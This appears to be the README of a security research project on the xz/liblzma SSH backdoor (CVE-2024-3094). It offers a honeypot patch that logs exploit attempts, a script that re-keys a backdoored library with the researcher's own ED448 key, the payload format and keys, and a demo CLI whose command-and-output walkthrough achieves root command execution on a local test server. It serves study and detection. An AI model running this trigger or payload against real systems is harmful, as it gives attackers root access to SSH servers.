

# xzbot

Exploration of the xz [backdoor](https://www.openwall.com/lists/oss-security/2024/03/29/4) (CVE-2024-3094).
Includes the following:
* [honeypot](#honeypot): fake vulnerable server to detect exploit attempts
* [ed448 patch](#ed448-patch): patch liblzma.so to use our own ED448 public key
* [backdoor format](#backdoor-format): format of the backdoor payload
* [backdoor demo](#backdoor-demo): cli to trigger the RCE assuming knowledge of the ED448 private key



## honeypot

See [openssh.patch](openssh.patch) for a simple patch to openssh that logs any
connection attempt with a public key N matching the backdoor format.

```
$ git clone https://github.com/openssh/openssh-portable
$ patch -p1 < ~/path/to/openssh.patch
$ autoreconf
$ ./configure
$ make
```

Any connection attempt will appear as follows in sshd logs:
```
$ journalctl -u ssh-xzbot --since='1d ago' | grep xzbot:
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: magic 1 [preauth]
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: 010000000100000000000000000000005725B22ED2...
```

# ed448 patch

The backdoor uses a hardcoded ED448 public key for signature validation and
decrypting the payload. If we replace this key with our own, we can trigger
the backdoor.

The attacker's ED448 key is:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
10 0c b0 6c 3a be 14 ee 89 55 d2 45 00 c7 7f 6e
20 d3 2c 60 2b 2c 6d 31 00
```

We will replace this key with our own (generated with seed=0):
```
5b 3a fe 03 87 8a 49 b2 82 32 d4 f1 a4 42 ae bd
e1 09 f8 07 ac ef 7d fd 9a 7f 65 b9 62 fe 52 d6
54 73 12 ca ce cf f0 43 37 50 8f 9d 25 29 a8 f1
66 91 69 b2 1c 32 c4 80 00
```

To start, download a backdoored libxzma shared object, e.g.
from https://snapshot.debian.org/package/xz-utils/5.6.1-1.
Then run the patch script. See [assets/](assets/) for examples.

```
$ pip install pwntools
$ shasum -a 256 liblzma.so.5.6.1
605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  liblzma.so.5.6.1
$ python3 patch.py liblzma.so.5.6.1
Patching func at offset: 0x24470
Generated patched so: liblzma.so.5.6.1.patch
```

Then run sshd using this modified `liblzma.so.5.6.1.patch` shared object.

## backdoor format

The backdoor can be triggered by connecting with an SSH certificate with a
payload in the CA signing key N value. This payload must be encrypted and
signed with the attacker's ED448 key.

The structure has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| cmd1 (32 bit) | cmd2 (32 bit) |         cmd3 (64 bit)         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                     ciphertext (240 bytes)                    +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

A command byte is derived from the three magic values above (`cmd1 * cmd2 + cmd3`).
If this value is greater than 3, the backdoor skips processing.

The ciphertext is encrypted with chacha20 using the first 32 bytes of the
ED448 public key as a symmetric key. As a result, we can decrypt any
exploit attempt using the following key:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
```

The ciphertext has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     signature (114 bytes)     |  command \x00 |    padding    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

The signature is an RFC-8032 ED448 signature computed over the following values:
* The first 4 bytes of the header (i.e. cmd1)
* The first 5 bytes of the command
* The first 32 bytes of the sha256 hash of the server's hostkey

# backdoor demo

```
$ go install github.com/amlweems/xzbot@latest
```

```
$ xzbot -h
Usage of xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
```

The following will connect to a vulnerable SSH server at `127.0.0.1:2222` and
run the command `id > /tmp/.xz`:
```
$ xzbot -addr 127.0.0.1:2222 -cmd 'id > /tmp/.xz'
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  02 00 00 00 01 00 00 00  |................|
00000180  00 00 00 00 00 00 00 00  54 97 bc c5 ef 93 e4 24  |........T......$|
00000190  cf b1 57 57 59 85 52 fd  41 2a a5 54 9e aa c6 52  |..WWY.R.A*.T...R|
000001a0  58 64 a4 17 45 8a af 76  ce d2 e3 0b 7c bb 1f 29  |Xd..E..v....|..)|
000001b0  2b f0 38 45 3f 5e 00 f1  b0 00 15 84 e7 bc 10 1f  |+.8E?^..........|
000001c0  0f 5f 50 36 07 9f bd 07  05 77 5c 74 84 69 c9 7a  |._P6.....w\t.i.z|
000001d0  28 6b e8 16 aa 99 34 bf  9d c4 c4 5c b8 fd 4a 3c  |(k....4....\..J<|
000001e0  d8 2b 39 32 06 d9 4f a4  3a 00 d0 0b 0f a2 21 c0  |.+92..O.:.....!.|
000001f0  86 c3 c9 e2 e6 17 b4 a6  54 ba c3 a1 4c 40 91 be  |........T...L@..|
00000200  91 9a 2b f8 0b 18 61 1c  5e e1 e0 5b e8 00 00 00  |..+...a.^..[....|
00000210  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
2024/03/30 00:00:00 ssh: handshake failed: EOF
```

On the vulnerable server, we can set a watchpoint for the call to `system()`
and observe the command is executed:
```
$ bpftrace -e 'watchpoint:0x07FFFF74B1995:8:x {
    printf("%s (%d): %s\n", comm, pid, str(uptr(reg("di"))))
}'
Attaching 1 probe...
sshd (1234): id > /tmp/.xz

$ cat /tmp/.xz
uid=0(root) gid=0(root) groups=0(root)
```

The process tree after exploitation looks different from a normal sshd
process tree:
```
# normal process tree
$ ssh foo@bar
$ ps -ef --forest
root         931     765  1 18:04 ?        00:00:00  \_ sshd: foo@pts/1
foo          938     931  0 18:04 pts/1    00:00:00      \_ -bash

# backdoor process tree
$ xzbot -cmd 'sleep 30'
$ ps -ef --forest
root         941     765  4 18:04 ?        00:00:00  \_ sshd: root [priv]
sshd         942     941  0 18:04 ?        00:00:00      \_ sshd: root [net]
root         943     941  0 18:04 ?        00:00:00      \_ sh -c sleep 60
root         944     943  0 18:04 ?        00:00:00          \_ sleep 60
```

*Note: successful exploitation does not generate any INFO or higher log entries.*

# References

- https://www.openwall.com/lists/oss-security/2024/03/29/4
- https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504
- https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
- https://gist.github.com/keeganryan/a6c22e1045e67c17e88a606dfdf95ae4
